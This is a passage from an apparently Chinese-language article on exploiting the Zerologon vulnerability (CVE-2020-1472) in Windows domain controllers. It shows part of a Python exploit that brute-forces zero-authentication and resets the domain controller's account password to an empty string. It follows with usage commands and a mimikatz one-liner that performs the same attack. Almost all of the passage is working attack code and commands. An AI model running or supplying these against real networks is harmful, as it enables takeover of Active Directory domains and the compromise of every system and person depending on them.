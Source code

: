 ```

def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break


  if rpc_con:
    print('\nTarget vulnerable, changing account password to empty string')
    result = exploit(dc_handle, rpc_con, target_computer)
    print('\nResult: ', end='')
    print(result['ErrorCode'])
    if result['ErrorCode'] == 0:
        print('\nExploit complete!')
    else:
        print('Non-zero return code, something went wrong?')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Resets the DC account password to an empty string when vulnerable.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```  
- 用法  
```
python cve-2020-1472-exploit.py DC主机名 DCip
python cve-2020-1472-exploit.py AD-server2016 10.10.1.228
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptU7z0rbDCfL8HGmBicFwUsdeusWiaAGYheuEbeIGn25iafDeMu5ncaCPqQ/640?wx_fmt=png&from=appmsg "")  
### 方式2：mimikatz  
- 执行mimikatz的机器在域内  
```
//如果当前主机在域环境中的话，target参数可以直接使用域控主机名.域名
mimikatz.exe "lsadump::zerologon /target:AD-server2016.lazy.com /ntlm /null /account:AD-server2016$ /exploit" "exit"
```  
  